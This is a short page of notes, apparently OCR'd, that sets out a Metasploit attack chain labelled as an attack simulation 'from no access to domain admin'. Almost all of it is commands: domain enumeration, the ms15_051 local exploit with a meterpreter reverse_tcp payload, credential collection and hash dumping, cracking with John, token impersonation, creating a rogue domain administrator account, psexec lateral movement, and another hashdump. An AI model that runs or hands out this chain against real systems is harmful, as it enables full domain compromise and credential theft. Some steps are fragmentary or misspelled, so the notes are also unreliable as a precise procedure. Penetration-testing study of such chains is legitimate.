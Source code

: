 https://spreadsecurity.github.io/2016/11/17/attack-simulation-from-no-access-to-domain-admin.html

#generate payload
#initial access
sessions -i 1
sysinfo
background
use post/windows/gather/win_privs
use post/windows/gather/enum_domain
use post/windows/gather/enum_domain_group_users
shell
net groups "domain admins" /domain
shell
wmic qfe list
use exploit/windows/local/ms15_051_client_copy_image
 set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
info
exploit
getuid
NT authority\SYSTEM
use post/windows/gather/credentials/credential_collector
info
creds
grab hashes into text files
cat hashes.txt
john --format:NT --wordlist=[filename].txt hashes.txt
#crack local administrator password
load incogito
impersonate_token
list_tokens -u
impersonate_token of another logged high priviledged user
shell
net user evilboss password123 /add /domain
net group "Domain Admins" evilboss /add /domain
exploit/windows/smb/psexec
EXPLOIT
sysinfo -> x64 shell
hashdump

https://spreadsecurity.github.io/2016/11/17/attack-simulation-from-no-access-to-domain-admin.html
